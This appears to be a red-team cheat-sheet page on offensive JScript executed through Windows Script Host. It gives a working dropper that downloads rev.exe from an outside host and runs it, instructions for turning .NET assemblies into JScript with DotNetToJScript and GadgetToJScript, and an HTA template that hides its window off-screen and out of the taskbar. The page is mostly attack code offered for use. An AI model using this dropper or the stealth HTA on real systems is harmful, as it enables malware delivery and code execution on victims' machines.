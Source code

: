 # ⭕ JScript

## <mark style="color:red;">WSH</mark>

VBScript and Jscript are executed by the windows script host. they run by the windows scripting host (WSH). they run as a console application (cscript.exe) or a GUI app (wscript.exe). the engines are not implemented in wscript.exe or cscript.exe. but in vbscript.dll and jscript.dll. these are both activeX DLLs which contain activeX objects.

## <mark style="color:red;">Simple Dropper</mark>

```
var url = "http://192.168.56.1/rev.exe"
var Object = WScript.CreateObject('MSXML2.XMLHTTP');
Object.Open('GET', url, false);
Object.Send();
if (Object.Status == 200)
{
	var Stream = WScript.CreateObject('ADODB.Stream');
	Stream.Open();
	Stream.Type = 1;
	Stream.Write(Object.ResponseBody);
	Stream.Position = 0;

	Stream.SaveToFile("rev.exe", 2);
	Stream.Close();
}
var r = new ActiveXObject("WScript.Shell").Run("rev.exe");
```

## <mark style="color:red;">DotNetToJScript</mark>

#### References

* [Github repo](https://github.com/tyranid/DotNetToJScript)
* [WhiteOakSecurity](https://www.whiteoaksecurity.com/blog/2020-1-16-advanced-ttps-dotnettojscript-part-1/)

Execute DotNetToJscript.exe and supply it with the ExampleAssembly.dll, specify the output file and the output type:

```
#Sample DLL
#csc.exe /target:library thisfile.cs -o sample.dll

using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Windows.Forms;

namespace Prog
{
public class Popme
{
  public void Box()
  {
    Process.Start("calc.exe");
    System.Windows.Forms.MessageBox.Show("Hello");
  }
}
}
```

#### <mark style="color:green;">Compile</mark>

```
#Test
DotNetToJScript.exe  -l JScript -o test.js -c <namespace. eg: Popme> sample.dll
Wscript.exe test.js

#For HTA
DotNetToJScript.exe  -l JScript -o output.txt -c <Classname. eg: Popme> sample.dll
#Append : o.<Method Name>();
```

#### <mark style="color:green;">Create HTA</mark>

```
<html>
<head>
<script language="JScript">
window.moveTo(-1337, -2019);
window.blur();
window.resizeTo(2, 4);

<!!! Add Script Here !!!>
</script>
<hta:application caption="no" windowState="minimize" showInTaskBar="no"
                 scroll="no" navigable="no" />
                 <!--  -->
</head>
<body>
</body>
</html>
```

## <mark style="color:red;">GadgetToJScript</mark>

* [Github Repo](https://githubmemory.com/repo/rasta-mouse/GadgetToJScript)

```
#Create a constructor. Save as source.cs

using System;
using System.Diagnostics;

public class Same
 { 
  public Same()
   {
    Process.Start("calc.exe");
   }
 }
```

```
GadgetToJScript.exe -i source.cs -w js -r <Reference assembly> -o out.txt -f
```
